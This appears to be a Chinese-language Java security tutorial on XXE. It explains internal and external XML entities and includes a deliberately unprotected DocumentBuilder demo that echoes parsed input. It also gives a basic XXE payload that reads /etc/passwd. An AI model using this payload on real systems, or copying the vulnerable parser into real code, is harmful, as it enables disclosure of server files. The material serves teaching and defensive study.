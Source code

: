 

# Java中的XXE

## 写在前面

什么是xml？什么是xxe？就不必多说了既然都学java安全了必然不是小白，当然如果是可以百度搜索一下

## 内部实体与外部实体

这个概念还算比较重要故此特地记录一下

内部实体：如果一个实体是在DTD中声明的，它就被称为内部实体。
例如：&lt;!ENTITY entity_name &quot;entity_value&quot;&gt;

外部实体：如果一个实体在DTD之外被声明，那么它就被称为外部实体，由SYSTEM标识。
例如：&lt;!ENTITY entity_name SYSTEM &quot;entity_value&quot;&gt;



## XXE-Payload

简单的demo用Java自带库实现xml解析，代码内容及其简单并且带回显

```java
String result = "";
try {
  DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
  DocumentBuilder db = dbf.newDocumentBuilder();
  Document doc = db.parse("file:///Users/y4tacker/Desktop/1.xml");

  String username = doc.getElementsByTagName("username").item(0).getFirstChild().getNodeValue();
  String password = doc.getElementsByTagName("password").item(0).getFirstChild().getNodeValue();
  if(username.equals("admin") && password.equals("1223456")){
    result = String.format("<result><code>%d</code><msg>%s</msg></result>",1,username);
  }else{
    result = String.format("<result><code>%d</code><msg>%s</msg></result>",0,username);
  }
} catch (Exception e) {
  e.printStackTrace();
  result = String.format("<result><code>%d</code><msg>%s</msg></result>",3,e.getMessage());
}
System.out.println(result);
```

### 基础回显

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test[
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user><username>&xxe;</username><password>123456</password></user>
```
